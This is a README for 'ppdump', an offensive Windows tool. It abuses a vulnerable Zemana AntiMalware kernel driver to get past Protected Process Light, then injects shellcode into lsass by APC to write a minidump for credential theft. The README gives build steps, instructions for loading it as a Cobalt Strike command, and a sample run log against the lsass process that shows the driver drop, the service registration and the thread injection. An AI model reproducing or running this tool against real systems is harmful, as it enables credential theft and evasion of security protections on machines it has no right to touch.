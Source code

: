 ## About

The bug that I abuse  goes to [@Dark_Puzzle](https://twitter.com/Dark_Puzzle) whom disclosed [here](http://rce4fun.blogspot.com/2018/02/malwarefox-antimalware-zam64sys.html) the privileged registration with Zemana AntiMalware. I only expanded upon this to use an additional IOCTL to open a thread with FULL_ACCESS (but still with some limitations!).

Protected Process (Light) on the latest iterations of Microsoft Windows has become the bane of most attackers - it prevents tools such as Mimikatz from obtaining a privileged handle to critical processes such as lsass, winlogon, and crss, all of which control the Microsoft kernel in various ways. As such, I studied various means of attacking the kernel and discovered one particular way which succeeded - using a stolen kernel driver to open a privileged handle the process and its underlying threads.

Using these privileged handles, I was able to successfully "APC Bomb" each individual threads until it reached an altertable state by using QueueUserAPC, and Stomping / Resuming the threads a multitude of times. 

### Versions Tested
  - Windows 10 1909 x64 (SUCCESS!)
  - Windows 10 1903 x64 (SUCCESS!)
  - Server 2012 (FAILURE: Output successful, yet minidump doesnt exist. weird. TODO)

### Build

The ppdump module can be built using `Make` and `Mingw-W64`. Simply download the make build system using your favorite package manager, as well the Mingw compiler package, and then run `make`. 

```sh 
$ make
make -f Makefile.x64
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x64.h src/zam.x64.h
cp -rf src/shellcode/payload.x64.h src/payload.x64.h
x86_64-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x64.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public'
make -f Makefile.x86
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x86.h src/zam.x86.h
cp -rf src/shellcode/payload.x86.h src/payload.x86.h
i686-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x86.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public
$ file ppdump.x64.dll ppdump.x64.dll
```

### Usage

Firstly, load the provided Cobalt Strike Aggresor Script into your script resource / console. Afterwards, using `ppdump` command with the provided PID (Process ID) of the target process - pass `ppdump <pid>`, which will kick off the Reflective Module loading process, and then start initializing the driver. A successful run with the process ID of Lsa should result in the following.

```
beacon> ppdump 820
[ ] driver will be stored in C:\WINDOWS\TEMP\tiGr4.sys
[ ] minidump will be stored in C:\WINDOWS\TEMP\usaxb.dmp
[+] Wrote 232792 to C:\WINDOWS\TEMP\tiGr4.sys successfully
[ ] attemping to load C:\WINDOWS\TEMP\tiGr4.sys with service control manager
[ ] registered service tiGr4.sys successfully
[ ] started service tiGr4.sys successfully
[+] LoadDriver() successfully loaded the driver
[ ] Calling ZemanaRegisterProcess() to add 3616
[ ] Opening target process -> 820

 ======= ENTER THE DANGER ZONE =======
[ ] MiniDumpWriteDump Shellcode is 1025 bytes
[ ] Attemping to APC Bomb All Threads
[+] apc successfully queued for 836
[+] apc successfully queued for 848
[+] apc successfully queued for 852
[+] apc successfully queued for 864
[+] apc successfully queued for 3456
[+] apc successfully queued for 4044
[+] apc successfully queued for 344
 ======= LEAVE THE DANGER ZONE =======

[ ] deleted service tiGr4.sys successfully
```

## Bugs
**NOTE**: Please do not run multiple instances of the ppdump command - wait until one has completed before running another. This is because only one driver can be loaded at a time - so if two are loaded at the same time, the process tends to break quiet quickly. Furthermore some of the threads will lock up during the injection process if you run too many of the DLL at the same time.
